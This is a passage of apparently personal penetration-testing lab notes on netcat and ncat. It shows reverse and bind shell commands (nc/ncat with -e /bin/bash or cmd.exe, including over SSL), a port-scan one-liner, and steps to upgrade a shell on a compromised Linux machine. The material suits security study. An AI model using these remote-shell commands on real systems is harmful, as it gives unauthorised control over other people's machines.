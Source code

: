 #### 2.1.4.2 - Reverse Shell Scenario
```sh
# Win 7
nc -nlvp 4446
```

```sh
# Kali
nc -nv 192.168.1.23 4446 -e /bin/bash
```

```sh
# Win 7
whoami
root
```

#### Netcat as a Port Monitor
```sh
watch -n1 nc -w1 -nvz 192.168.1.23 123
# -w1: timeout 1 sec, -n: no reverse lookup, -v: verbose, -z: no IO, act as a scanner
```

## `ncat`
Reverse Shell

```sh
# Kali
ncat -lnvp 4444 --allow [win ip] --ssl
# Win
ncat -nv [kali ip] 4444 -e cmd.exe --ssl
```

Bind Shell
```sh
# Win
ncat -lnvp 4444 -e cmd.exe --allow [kali ip] --ssl
# Kali
ncat -nv [win ip] 4444 --ssl
```

The `ncat` in the Windows VM produces many errors, even after updating. To update, download "nmap-7.60-win32.zip" and reinstall the nmap suite, which includes the latest version of ncat. Be warned, errors will still occur.

## Shells Reference
Upgrade a half shell to full interactive shell on a compromised Linux machine:
```sh
# On victim
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-z
# On attacker
echo $TERM # note down
stty -a # note down rows and cols
stty raw -echo # this may be enough
fg
# On victim
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
